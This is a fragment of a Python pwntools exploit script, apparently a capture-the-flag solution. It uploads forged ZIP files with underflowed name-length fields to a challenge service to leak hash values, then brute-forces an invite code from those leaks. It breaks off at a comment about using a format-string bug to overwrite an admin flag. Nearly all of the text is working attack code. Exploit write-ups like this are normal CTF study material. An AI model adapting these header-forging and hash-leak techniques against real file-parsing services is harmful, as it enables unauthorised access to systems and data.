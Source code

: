 ```python
    r.sendlineafter(b'? ', pw)
    r.sendlineafter(b'? ', str(cid).encode())

def view_flag(uid, pw): 
    r.sendlineafter(b'> ', b'6')
    r.sendlineafter(b'? ', str(uid).encode())
    r.sendlineafter(b'? ', pw)

def dohash(inp, leng=10):
    out = 0xCBF29CE484222325
    for i in range(leng):
        out = 0x100000001B3 * (inp[i] ^ out)
        out &= 0xffffffffffffffff
    return out

# create base zip file
with ZipFile('exp.zip', 'w') as myzip:
    with myzip.open('a'*0x20, 'w') as myfile:
        myfile.write(b'b'*0xf)

r = start()
if args.D:
    #debug(r, [0x23b7]) # fsb
    debug(r, [0x17c8]) # length check -- call hash

with open('./exp.zip', 'rb') as f:
    inp = f.read()

# generate hash with invitecode
contlen_offset = 0x12
namelen_offset = 0x12+0x8
contlen = 0xa

# change name_length offset and generate hash 20times
for i in range(20):
    namelen = 0x100000000-(0x1e4-1) - i*5 - (512*i)
    if not args.R:
        namelen = 0x100000000-0x1e4 - i*5 - (512*i)
    forge = inp[:contlen_offset] + p32(contlen) + inp[contlen_offset+4:namelen_offset]+p32(namelen)+inp[namelen_offset+4:0x1ff]
    upload(15, forge)

# gather all hashes
list_file()
hashes = []
for i in range(20):
    r.recvuntil(b'  10 ')
    hashes.append(int(r.recvuntil(b'\n', True), 16))

# bruteforce with small wordbag
invite_code = b''
wordbag = '-abcdefghijklmnopqrstuvwxyz'
seed = b'PK\x01\x02\x3f\x00\x0a\x00\x00'
while len(invite_code) < 20:
    for w in wordbag:
        if hashes[len(invite_code)] == dohash((w.encode()+invite_code+seed)[:10]):
            invite_code = w.encode() + invite_code
            break
print(f'found invitecode: {invite_code}')
if not args.R:
    invite_code = b'terrible-red-busses'

# use fsb to overwrite admin flag
```